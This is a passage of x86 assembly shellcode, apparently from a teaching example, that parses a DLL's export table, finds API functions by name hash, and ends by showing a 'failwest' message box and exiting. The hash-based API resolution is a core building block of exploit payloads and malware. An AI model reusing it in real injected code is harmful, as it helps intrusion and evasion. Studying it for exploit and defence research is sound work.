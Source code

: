 ```cpp
    xchg eax, ebp

find_functions:
    // push all 32-bit registers
    // eax, ecx, edx, ebx, original esp, ebp, esi and edi
    pushad                      
    mov eax, [ebp+0x3c]         // eax = RVA of PE header
    mov ecx, [ebp+eax+0x78]     // IMAGE_DATA_DIRECTORY.VirtualAddress
    add ecx, ebp                // ecx = address of IMAGE_EXPORT_DIRECTORY
    mov ebx, [ecx+0x20]         // ebx = RVA of AddressOfNames
    add ebx, ebp                // ebx = address of names table
    
    xor edi, edi                // 0

next_function_loop:
    inc edi
    mov esi, [ebx+edi*4]        // RVA of a function name
    add esi, ebp                // esi = address of a function name
    cdq

hash_loop:
    movsx eax, byte ptr[esi]    // get a byte
    cmp al, ah                  // check for null character
    jz compare_hash
    ror edx, 7                  // does this produce zeros?
    add edx, eax                // edx = hash
    inc esi
    jmp hash_loop

compare_hash:
    cmp edx, [esp+0x1c]         // original value of eax before pushad and after lodsd
    // is that the function name we are searching?
    jnz next_function_loop      // jump if not
    mov ebx, [ecx+0x24]         // ebx = RVA of AddressOfNameOrdinals
    add ebx, ebp                // ebx = address of AddressOfNameOrdinals
    mov di, [ebx+2*edi]         // edi = ordinal number
    mov ebx, [ecx+0x1c]         // ebx = RVA of AddressOfFunctions
    add ebx, ebp                // ebx = address of AddressOfFunctions
    add ebp, [ebx + edi * 4]    // ebp = the address of desired function
    xchg eax, ebp
    pop edi                     // restore edi
    stosd                       // store the value of eax into the location pointed by edi and then increment edi
    push edi                    // push the updated edi
    popad                       // restore all registers
    cmp eax, 0x1E380A6A         
    // is that the last function(MessageBoxA) we have been searching?
    jne find_lib_functions

function_call:
    xor ebx, ebx
    push ebx
    push 0x74736577             // tsew
    push 0x6c696166             // liaf
    mov eax, esp
    push ebx
    push eax
    push eax
    push ebx
    call [edi-0x04]
    push ebx
    call [edi-0x08]
    nop
```